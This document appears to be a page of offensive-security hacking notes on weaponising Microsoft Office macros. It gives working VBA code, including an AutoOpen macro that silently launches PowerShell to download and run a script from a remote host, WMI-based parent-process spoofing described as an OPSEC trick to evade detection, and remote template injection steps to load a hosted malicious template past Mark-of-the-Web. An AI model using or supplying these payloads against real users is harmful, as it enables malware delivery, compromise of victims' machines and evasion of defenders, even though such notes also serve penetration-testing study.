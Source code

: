 ```yaml
---
title: Microsoft Office Macros
category: Client Side Attacks
order: 2
---
```


# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

To create a macro go to `View -> Macros` and create one.

![Macro](/hackingnotes/images/macro-create.png)

> **Note**: It's important to select the document in order to save the macro inside.

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

![Macro](/hackingnotes/images/macro-calc.png)

> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```

# Changing Prent-Child Relationship

When a powershell is executed from a word macro a child `powershell.exe` process is created from `winword.exe` (MS Word as a Parent). This isn't normal behaviour and highly suspicious.

With `wmi` we can create another parent process and append the powershell to wmi and not to the MS Word.


```VB
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```


> **OPSEC Note**: In that case, powershell will be a child of `WmiPrvSE.exe` rather than MS Word.


# Remote Template Injection


Microsoft Word has the option of creating a new document from a template. Office has some templates pre-installed. Remote template injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious script.

* Create a word add a macro and save it as `Word 97-2003 Template (.dot)`. This will be out malicious remote template, and we can also host this file.
* Next, create a new document from the blank template located in `C:\Users\User\Documents\Custom Office Templates`. Add any content and save it as `.docx`.
* Browse to the directory in explorer, right-click and select `7-zip -> Open Archive`. Navigate to `word -> _rels`, right-click on `settings.xml.rels` and select Edit. Change the Target entry and specify out hosted template.

```
Target="http://10.10.10.10/template.dot"
```
This will allow to execute the macro even if its flagged with MOTW.

